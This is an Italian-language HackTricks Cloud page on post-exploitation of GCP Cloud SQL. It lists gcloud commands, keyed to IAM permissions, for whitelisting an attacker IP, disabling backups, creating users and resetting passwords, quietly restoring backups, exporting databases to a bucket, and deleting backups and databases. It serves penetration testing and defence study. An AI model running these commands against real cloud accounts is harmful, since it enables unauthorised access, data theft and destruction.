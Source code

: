 # GCP - Post Esploitation di Cloud SQL

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Cloud SQL

Per ulteriori informazioni su Cloud SQL, controlla:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, (`cloudsql.instances.get`)

Per connettersi ai database, è sufficiente avere accesso alla porta del database e conoscere il nome utente e la password, non ci sono requisiti IAM. Quindi, un modo semplice per ottenere l'accesso, supponendo che il database abbia un indirizzo IP pubblico, è aggiornare le reti consentite e **permettere al proprio indirizzo IP di accedervi**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
È anche possibile utilizzare **`--no-backup`** per **interrompere i backup** del database.

Poiché questi sono i requisiti, non sono completamente sicuro di quali siano i permessi **`cloudsql.instances.connect`** e **`cloudsql.instances.login`**. Se lo sai, invia una PR!

### `cloudsql.users.list`

Ottieni un **elenco di tutti gli utenti** del database:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Questa autorizzazione consente di **creare un nuovo utente all'interno** del database:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Questa autorizzazione consente di **aggiornare l'utente all'interno** del database. Ad esempio, è possibile modificare la sua password:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

I backup potrebbero contenere **vecchie informazioni sensibili**, quindi è interessante controllarli.\
**Ripristina un backup** all'interno di un database:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Per farlo in modo più discreto, è consigliabile creare una nuova istanza SQL e recuperare i dati lì anziché nei database attualmente in esecuzione.

### `cloudsql.backupRuns.delete`

Questa autorizzazione consente di eliminare i backup:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Esporta un database** in un Cloud Storage Bucket in modo da potervi accedere da lì:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importa un database** (sovrascrivendo) da un Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Elimina un database dall'istanza del database:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) su GitHub.

</details>
